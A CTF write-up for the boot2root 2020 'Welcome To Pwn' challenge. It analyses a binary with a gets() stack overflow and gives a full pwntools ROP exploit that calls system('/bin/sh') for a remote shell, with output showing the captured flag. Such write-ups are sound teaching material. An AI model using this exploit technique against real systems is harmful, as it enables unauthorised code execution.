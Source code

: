 # boot2root 2020

## Welcome To Pwn

> 457
>
> Welcome to pwn, here is an easy challenge to get you started.
>
> `nc 35.238.225.156 1001`
>
> Author: Viper_S
> 
> [welcome](welcome)

Tags: _pwn_ _x86-64_ _remote-shell_ _bof_ _rop_


## Summary

Basic ROP binary with freebies included.
 

## Analysis

### Checksec

```
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

No PIE or Canary; easy ROP.


### Decompile with Ghidra

```c
undefined8 main(void)
{
  char local_98 [140];
  __gid_t local_c;
  
  setvbuf(stdout,(char *)0x0,2,0);
  local_c = getegid();
  setresgid(local_c,local_c,local_c);
  puts("----WELCOME TO PWN----");
  printf("Let\'s see what u got ");
  gets(local_98);
  puts("Damn that\'s it?");
  return 0;
}
```

`gets` with no stack canary provides an easy buffer overflow.

Normally I'd use `puts` to _put_ itself out there (i.e. leak its address using the GOT), then use that to find the version and address of libc so that I could then find both `system` and `/bin/sh` in libc, but that is not necessary here:

```bash
# strings welcome | grep /bin/sh
/bin/sh
```

If `/bin/sh` is in there, perhaps `system` is in the GOT:

```bash
# objdump -M intel -d welcome | grep system
0000000000401050 <system@plt>:
  401192:	e8 b9 fe ff ff       	call   401050 <system@plt>
```

Yep, so all we need to do is write out `0x98` bytes of junk (`local_98` is `0x98` bytes from the return address), then call `system` with the location of `/bin/sh`.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./welcome')

if args.REMOTE:
    p = remote('35.238.225.156', 1001)
else:
    p = process(binary.path)

rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = b''
payload += 0x98 * b'A'
payload += p64(pop_rdi+1)
payload += p64(pop_rdi)
payload += p64(binary.search(b'/bin/sh').__next__())
payload += p64(binary.plt.system)

p.sendlineafter('what u got ',payload)
p.interactive()
```

`pop_rdi+1` is the same as `ret` and is used to align the stack, otherwise `system` would segfault (see [blind-piloting](https://github.com/datajerk/ctf-write-ups/tree/master/b01lersctf2020/blind-piloting) and search for stack-alignment).  The next instruction will pop the address of `/bin/sh` into `rdi` (required for `system`), lastly `system` is called.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/boot2root2020/welcome_to_pwn/welcome'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[+] Opening connection to 35.238.225.156 on port 1001: Done
[*] Loaded 14 cached gadgets for './welcome'
[*] Switching to interactive mode
Damn that's it?
$ cat flag
b00t2root{W3lc0m3_T0_Pwn_YjAwdDJyb290JzIw}
```
